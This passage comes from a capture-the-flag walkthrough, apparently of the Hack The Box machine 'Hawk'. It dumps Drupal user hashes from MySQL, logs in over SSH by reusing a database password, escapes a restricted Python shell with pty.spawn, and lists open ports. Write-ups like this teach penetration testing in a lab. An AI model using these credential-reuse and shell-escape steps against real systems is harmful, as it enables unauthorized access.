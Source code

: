 ```bash
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupal             |
| mysql              |
| performance_schema |
| sys                |
+--------------------+

use drupal;

show tables;

select * from users;

admin:$S$DFw163ixD00W55hdCqtvCB13XOTLhZ0pt0FVpFy1Ntmdp5EAOX08

```

Since we already have admin’s password, this is not too useful. Let’s see if the mysql password is reused with daniel. 

```bash
ssh daniel@10.10.10.102
#drupal4hawk
```

It worked, but we seem to have a python interpreter shell:

![image.png]({{ site.baseurl }}/assets/hawk/image%207.png)

Let’s just try spawning a shell:

```bash
import pty; pty.spawn("/bin/bash")
```

We are in:

![image.png]({{ site.baseurl }}/assets/hawk/image%208.png)

Enumerating through privileges did not yield any more results.

Looking at the open ports:

```bash
ss -lntp

State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port    
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*       
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*       
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*       
LISTEN   0         50                        *:9092                   *:*       
LISTEN   0         128                       *:80                     *:*       
LISTEN   0         50                        *:8082                   *:*       
LISTEN   0         32                        *:21                     *:*       
LISTEN   0         128                    [::]:22                  [::]:*       
LISTEN   0         50                        *:5435                   *:* 
```
